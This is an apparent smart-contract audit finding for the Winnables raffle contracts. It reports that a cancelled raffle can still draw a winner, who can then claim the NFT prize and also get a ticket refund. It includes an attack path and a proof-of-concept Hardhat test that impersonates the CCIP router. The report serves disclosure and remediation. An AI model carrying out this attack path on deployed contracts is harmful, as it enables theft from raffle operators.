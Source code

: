 Oblong Eggshell Pelican

Medium

# A canceled raffle can draw a winner, and winner can transfer prize NFT and a refund ticket price eth, too.

### Summary

Invalid check and early exit from the if branch in `WinnablesTicketManager.sol` internal function `_checkShouldCancel(raffleId)`  and missing check if `RaffleStatus is canceled` in both external function `drawWinner(raffleId)` and its helper internal function `_checkShouldDraw(raffleId)` leads to draw the winner for canceled raffle and propagate the winner message through `CCIP` to `WinnablesPrizeManager.sol` where `claimPrize` also doesn't check if `RafflePrize status is canceled` which leads to winner getting the NFT prize and come back to `WinnablesTicketManager.sol` to get the price refund for the ticket from `refundPlayers()`

### Root Cause

During the cancellation of the raffle in [WinnablesTicketManager.sol:436](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L436)  function returns if a `PRIZE` is locked. The prize is locked first for every valid raffle contest as `RaffleStatus.PRIZE_LOCKED` is set while receiving the `ccip` message [WinnablesTicketManager.sol:381](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L381) Thus leading to pass the validation for every valid raffle and triggering the cancellation message to transmit in [WinnablesTicketManager.sol:282](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L282) Subsequently neither `drawWinner`   and it's helper function checks before drawing the winner if `RaffleStaus` is `CANCELED` or not.  [drawWinner](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L310) and [_shouldDraw](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L422)

As the first cancellation message and then the winner is propagated to the `PrizeManager.sol` a winner is set at [WinnablesPrizeManager.sol:275](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesPrizeManager.sol#L275) and winner can call the `claimPrize` at [WinnablesPrizeManager.sol:105](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesPrizeManager.sol#L105) to get the NFT prize as there is missing check if `RafflePrizeStatus is CANCELED or not` 

Again winner can call the `refundPlayers` [WinnablesTicketManager.sol:215](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/81b28633d0f450e33a8b32976e17122418f5d47e/public-contracts/contracts/WinnablesTicketManager.sol#L215) to get the refund for the ticket purchased which got canceled.

### Internal pre-conditions

- Admins in `WinnablesPrizeManager.sol` lock the NFT as a prize.
  - Transmits the `CCIP` message
 - Admins in `WinnablesTicketManager.sol` creates a new raffle with prize type NFT


### External pre-conditions

- The `raffle.endsAt` must surpass the `block.timestamp` and ticket sales must be higher than `raffle.minTicketsThreshold` to pass the checks inside of `_checkShouldDraw`
- The winner must have purchased the ticket to get the refund else the winner would still get the NFT prize.
- Admin shouldn't withdraw locked tokens as soon as the raffle gets canceled. Some minimal time gap is needed to execute the attack

### Attack Path

- External users can call `cancelRaffle` with the `prizeManager, chainSelector and raffleId` which further calls the internal helper function `_checkShouldCancel(raffleId)` which returns fulfilling the first if the condition of `if (raffle.status == RaffleStatus.PRIZE_LOCKED) return;`  And the function `cancelRaffle` propagates the cancellation message through `CCIP`
- External users can call `drawWinner(raffleId)` which only checks for the external pre-conditions mentioned above. It doesn't check if the `raffleStatus` is `CANCELED` 
- External user can call `propagateRaffleWinner(prizeManager, chainSelector, raffleId)`  again not `raffleStatus` checked.
- The winner calls the `claimPrize(raffleId)` in `WinnablesPrizeManager` to get the NFT prize.
- Winner calls the `refundPlayers(raffleId, [address]` to get the refund for purchased ticket

### Impact

The attack best works for the NFT prize-type raffles as the first cancellation message removes/decreases the funds or unlocks the funds to withdraw.  The cancelled raffle winner can get both prize NFT and refund eth causing damage to the admins/manager entity which locked the prize.

### PoC

POC adds the existing unit test code of the project [test/PrizeManager.sol](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/test/PrizeManager.js) 

```javascript
describe('Attempts to draw the raffle and claim the NFT as the winner after it being cancelled', () => {
    before(async () => {
      snapshot = await helpers.takeSnapshot();
    });
    after(async () => {
      await snapshot.restore();
    });

    it('First Cancel Message', async () => {
      await (await manager.setCCIPCounterpart(counterpartContractAddress, 1, true)).wait();
      const tx = await whileImpersonating(ccipRouter.address, ethers.provider, async (signer) =>
        manager.connect(signer).ccipReceive({
          messageId: ethers.constants.HashZero,
          sourceChainSelector: 1,
          sender: '0x' + counterpartContractAddress.slice(-40).padStart(64, '0'),
          data: '0x000000000000000000000000000000000000000000000000000000000000000001',
          destTokenAmounts: []
        })
      );
      const { events } = await tx.wait();
      expect(events).to.have.lengthOf(1);
      expect(events[0].event).to.eq('PrizeUnlocked');
    });
        
    it('Winner Message', async () => {
      await (await manager.setCCIPCounterpart(counterpartContractAddress, 1, true)).wait();
      const tx = await whileImpersonating(ccipRouter.address, ethers.provider, async (signer) =>
        manager.connect(signer).ccipReceive({
          messageId: ethers.constants.HashZero,
          sourceChainSelector: 1,
          sender: '0x' + counterpartContractAddress.slice(-40).padStart(64, '0'),
          data: '0x' +
            '01' +
            '0000000000000000000000000000000000000000000000000000000000000001' +
            winnablesDeployer.address.slice(-40).toLowerCase(),
          destTokenAmounts: []
        })
      );
      const { events } = await tx.wait();
      expect(events).to.have.lengthOf(1);
      expect(events[0].event).to.eq('WinnerPropagated');
    });

    it('Can claim the NFT now', async () => {
      const raffleWinner = await manager.getWinner(1);
      expect(raffleWinner).to.eq(signers[0].address);
      const tx = await manager.claimPrize(1);
      const { events } = await tx.wait();
      expect(events).to.have.lengthOf(2);
      const transferEvent = nft.interface.parseLog(events[0]);
      expect(transferEvent.name).to.eq('Transfer');
      const { from, to, tokenId } = transferEvent.args;
      expect(from).to.eq(manager.address);
      expect(to).to.eq(winnablesDeployer.address);
      expect(tokenId).to.eq(1);
      expect(events[1].event).to.eq('PrizeClaimed');
      const { raffleId, winner } = events[1].args;
      expect(raffleId).to.eq(1);
      expect(winner).to.eq(winnablesDeployer.address);
    });
  });


```


### Mitigation

- Add checks before drawing the winner if the `RaffleStatus` is canceled 